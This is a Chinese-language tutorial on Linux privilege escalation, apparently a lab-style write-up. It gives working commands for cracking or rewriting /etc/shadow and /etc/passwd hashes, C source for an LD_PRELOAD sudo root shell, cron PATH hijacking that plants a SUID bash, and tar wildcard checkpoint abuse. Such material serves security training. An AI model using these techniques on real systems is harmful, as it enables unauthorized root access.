










0x01 利用shdow文件提权
- 当shadow可读取时，对其进行暴力破解

将字串拷贝进文件，使用john进行破解即可，他会自动识别hash算法。如图，

知识点补充
$1$ 表示使用的是 MD5 哈希函数；
$2$ 或 $2a$ 表示使用的是 Blowfish 哈希函数；
$5$ 表示使用的是 SHA-256 哈希函数；
$6$ 表示使用的是 SHA-512 哈希函数。
除了还有一种特殊的形式
kali:$y$j9T$thVUCcCzQozwQh.2JyVRs.$T0FS1BRAcGSTCGldig/Ji2CbWc3bLVV8Ym1wEPDcIw1:19590:0:99999:7:::
vulnix:$y$j9T$gjOH5KmSW0G/57IL1Th51/$cytXoMXtOBSEh572rrWZopbahP79PgkkN.qt.gQkom/:19652:0:99999:7:::
其中$y$表示是对hash进行了加盐，这种情况无法直接使用john跑出结果。
-
当shadow文件可写，可生成对应hash，进行修改。
使用mkpasswd命令进行操作
┌──(root㉿kali)-[/home/kali]
└─# mkpasswd -m sha-512 password # -m指定加密算法 password可自定义
$6$WWrDOxs6nof57fef$tM0/tQHyZh1l9QQuW7H7Wrj23MX6cUUa1FonEj00aPWnfXZKeb8UHpNR95qYAFyTz285RpJyhrflotFRGmHRH/
之后再将生成的值替换原来的shadow加密字段。
0x02 利用passwd文件提权
- 当passwd文件可写时，可使用生成hash代替 x 字段的方式提权。
知识补充
┌──(root㉿kali)-[/home/kali]
└─# cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
## 以前的linux中passwd文件中的x是存储hash的，只是后来为了保证安全性，又增加了shadow文件用来提高安全性。
## 但是，passwd的hash验证功能并没有被荒废，因此可以进行以下利用。
┌──(root㉿kali)-[/home/kali]
└─# openssl passwd 123456
$1$O0ogD3bT$telGJhry8Nk8vv1Hww.YE1
## 这里与上面不同，使用了openssl进行了加密 ，这里用mkpasswd工具也是一样的，只是说明一下新的方法。
##之后把x字段替换即可。当然也要注意合适的加密算法。
root:$1$O0ogD3bT$telGJhry8Nk8vv1Hww.YE1:0:0:root:/root:/usr/bin/zsh
0x03 利用sudo环境变量提权
当输入sudo -l 出现以下情况时，可尝试进行此操作提权：
-
存在env_reset，env_keep+=LD_PRELOAD字段
env_reset 的意思是执行sudo时，重制一次环境变量，这是一种安全的操作，重点是下一条env_keep+=LD_PRELOAD，表示载入LD_PRELOAD这个动态链接器，实现预加载共享库的功能。
-
存在（root）NOPASSWD: /usr/sbin/XXX
如图这种情况：
- 利用
┌──(kali㉿kali)-[~]
└─$ cat xxx
#include<stdio.h>
#include<sys/types.h>
#include<stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
##创建以上内容的c文件
gcc -fPIC -shared -o shell.so xxx -nostartfile ##将文件编译成共享库文件
sudo LD_PRELOAD=/home/user/shell.so /usr/sbin/XXX ## 执行sodo时指定生成的共享库即可提权。
##/usr/sbin/XXX 不需要添加参数，只作为执行sudo的契机，因为在执行该命令之前就已经通过共享库实现了提权逻辑。
0X04 利用自动任务权限提权
-
以root权限运行的shell脚本，并且低权限账户具有写权限。。的方式提权。
直接修改文件内容如下，

起好端口监听即可。
-
利用自动任务中PATH环境变量的方式提权
还是上面的例子，当输入cat /etc/crontab 时，发现了，如图

这里的PATH 和直接在shell界面中 输出echo $PATH 有所不同。如图：

因为定时任务运行时，会使用他自己的PATH变量。
并且由于PATH变量的匹配是从左向右依次执行的，所以，可以尝试在优先于执行脚本所在的路径创建与其同名的脚本，进行提权。

overwrite.sh 的路径在PATH中的第三个，尝试在第一个路径下创建同名文件，并赋予执行权限。

创建内容
#!/bin/bash cp /bin/bash /tmp/rootbash chmod +xs /tmp/rootbash 等待脚本执行
输入 /tmp/rootbash -p 切换至root
使用这种啊方法的前提显而易见：
1. 脚本不在首个PATH路径中
1. 不能写名绝对路径
1. PATH路径有写权限
-
利用定时任务中 通配符 和 tar 的检查点功能
知识补充
##tar 命令用于打包压缩文件。 ##tar命令存在以下参数 ----checkpoint=n：##每写入n（内容为数字）个记录之后设置一个检查点，在检查点可以执行任意的操作，操作由--checkpoint-action指定 --checkpoint-action=n ## n: exec：执行外部命令/echo:输出到页面/
见实例：
实操环节，还是上面的例子

这次看compress.sh这个文件，文件内容如图，意思是进入user家目录，将里面的文件打包备份。* 表示所有文件。

生成木马文件，传递至目标机器中。 .elf格式为linux下的二进制格式，同比windows下的.exe文件。
然后在备份目录下创建特殊命名的文件，等待即可。

.
0x05 利用SUID提权
搜寻suid文件